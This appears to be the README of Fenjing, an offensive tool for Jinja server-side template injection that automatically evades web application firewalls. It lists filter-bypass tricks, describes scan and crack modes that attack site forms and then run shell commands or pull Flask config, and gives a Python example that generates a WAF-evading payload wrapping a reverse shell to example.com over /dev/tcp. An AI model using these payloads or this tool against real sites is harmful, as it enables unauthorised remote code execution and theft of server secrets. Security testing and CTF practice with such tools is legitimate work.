 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![demo](assets/demo.webp)

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同
```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

## 项目结构

[![](https://mermaid.ink/img/pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY?type=png)](https://mermaid.live/edit#pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY)


